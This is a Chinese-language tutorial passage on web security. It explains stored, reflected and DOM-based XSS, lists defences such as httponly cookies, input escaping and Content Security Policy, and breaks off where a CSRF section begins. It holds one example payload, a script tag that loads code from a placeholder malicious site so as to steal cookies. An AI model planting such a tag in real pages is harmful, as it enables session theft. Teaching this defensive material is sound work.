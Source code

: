 ### [跨站脚本攻击](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)（Cross Site Scripting）

XSS 是一种安全漏洞，攻击者可以利用这种漏洞在网站上注入恶意的客户端代码。当被攻击者登陆网站时就会自动运行这些恶意代码，从而，攻击者可以突破网站的访问权限，冒充受害者。根据开放式 Web 应用安全项目（OWASP），XSS 在 2017 年被认为是 [7 种最常见的 Web 应用程序漏洞之一](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS%29)。

如果 Web 应用程序没有部署足够的安全验证，那么，这些攻击很容易成功。浏览器无法探测到这些恶意脚本是不可信的，所以，这些脚本可以任意读取 cookie，session tokens，或者其它敏感的网站信息，或者让恶意脚本重写 HTML 内容。

在以下2种情况下，容易发生 XSS 攻击：

1. 数据从一个不可靠的链接进入到一个 Web 应用程序
2. 没有过滤掉恶意代码的动态内容被发送给 Web 用户

恶意内容一般包括 JavaScript，但是，有时候也会包括 HTML，FLASH 或是其他浏览器可执行的代码。XSS 攻击的形式千差万别，但他们通常都会：将 cookies 或其他隐私信息发送给攻击者，将受害者重定向到由攻击者控制的网页，或是经由恶意网站在受害者的机器上进行其他恶意操作。

XSS 有三种形式，通常针对用户的浏览器。

#### 存储型 XSS 攻击

利用漏洞提交恶意 JavaScript 代码，例如在 `input`，`textarea` 等所有可能输入文本信息的区域，输入 `<script src="http://恶意网站"></script>` 等，提交后信息会存在服务器中，当用户再次打开网站请求到相应的数据时，恶意脚本就会将用户的 Cookie 信息等数据上传到黑客服务器。

#### 反射型 XSS 攻击

用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接，所以对于这些不明链接我们一定要慎之又慎。

Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

#### 基于 DOM 的 XSS 攻击

通过修改原始的客户端代码，受害者浏览器的 DOM 环境改变，导致有效载荷的执行。也就是说，页面本身并没有变化，但由于DOM环境被恶意修改，有客户端代码被包含进了页面，并且意外执行。

#### 预防策略

1. 将 Cookie 等敏感信息设置为 `httponly`，禁止 JavaScript 通过 `document.cookie` 获得
2. 对所有的输入做严格的校验尤其是在服务器端，**过滤掉任何不合法的输入**，比如手机号必须是数字，通常可以采用正则表达式
3. 删除或禁用任何可能包含可运行代码指令的标记。对 HTML 来说，这些包括类似 `<script>`、`<object>`、`<embed>` 和 `<link>` 的标签
4. **转义单引号、双引号和尖括号等特殊字符**，可以采用 `encodeURIComponent` 编码，或者过滤掉这些特殊字符
5. 启用内容安全策略（CSP）作为针对 XSS 攻击的深度防御控制。主要以白名单的形式配置可信任的内容来源。在网页中，能够使白名单中的内容正常执行（包含 JS，CSS，Image 等），而非白名单的内容无法正常执行，从而减少 XSS 攻击，当然，也能够减少运营商劫持的内容注入攻击

```html
// header
Content-Security-Policy: default-src https:

// meta tag
<meta http-equiv="Content-Security-Policy" content="default-src https:">
```

### [跨站请求伪造](https://developer.mozilla.org/zh-CN/docs/Glossary/CSRF)（Cross-site request forgery）

#### 小明的悲惨遭遇
